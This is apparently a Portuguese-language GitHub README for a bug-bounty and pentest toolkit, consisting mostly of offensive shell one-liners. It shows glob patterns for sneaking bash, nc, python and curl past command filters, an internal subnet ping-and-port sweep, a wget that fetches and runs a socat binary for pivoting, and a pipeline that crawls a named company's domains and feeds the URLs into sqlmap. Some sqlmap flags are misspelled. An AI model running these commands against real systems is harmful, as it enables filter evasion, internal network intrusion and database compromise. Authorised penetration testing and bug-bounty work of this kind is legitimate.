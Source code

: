# Bugbounts-ferramentas-e-tutoriais

Esse script baixa as ferramentas mais utilizadas em pentest e bounts, cria arquivos txt passando como usa cada uma, e ainda baixa wordlists mais atuais de parâmetros, dns, diretorios e etc...
<h1>Bypass de bash use a imaginação, aqui está alguns exemplos</h1>
/bin/b??? -p || /bi?/b??? -p = bash</br>
/bin/ne?c?t || /bi?/ne?c?t = nc </br>
/bin/p?t?o?3 || /bi?/p?t?o?3 = python3</br>
/bin/p?t?o?2 || /bi?/p?t?o?2 = python2</br>
/bin/c??l || /bi?/c??l = curl </br>
/bin/w??t || /bi?/w??t = get</br>

<h1>Para fazer um scan na rede do alvo procurando novos ips internos ativos com portas abertas</h1>
route|awk '{print $1}'|grep [[:digit:]] || ip route list |awk '{print $1}'|grep [[:digit:]];echo -e "\e[1;41;1;45mColoqueo ip assim -----> 172.0.0. tire o ultimo numero\e[0m" ;echo -en "Escolha o ip e coloque aqui -->: ";read num ; for i in $(seq 1 255);do ping -W 1 -c 1 $num$i | grep '64 bytes' | awk {'print $4'} | sed 's/.$//g';done > ipvalidos.txt ;for a in $(cat ipvalidos.txt);do nc -nv -w 1 -z $a 80 443 22 21 3306 25 445 139;done
</br>
<h2>Dowlonad do socat para o pivoting</h2>

Comand = wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat;chmod +x socat ;./socat -h

Tutorial = https://deephacking.tech/pivoting-con-socat/
</br>
Uso= ./socat tcp-l:7878,fork,reuseaddr tcp:172.16.0.147:80 &


<h2>Pegando params para sqli</h2>

pegando target das url: 

subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls.txt

filtrando potenciais sqli: 

cat urls | gf sqli | tee -a sqli.txt
</br>
gf = (ssrf,xss,ssti,sqli,redirect,rce,lfi,jsvar,interestingsubs,insterestingparams,interestingEXT,ido,dbug)

jogando para sqlmap:

while read line; do sqlmap -u $line --parse-erros --current-db --invalid-logical --invalid-bignum --invalid-string --riks 3;done < sqli.txt
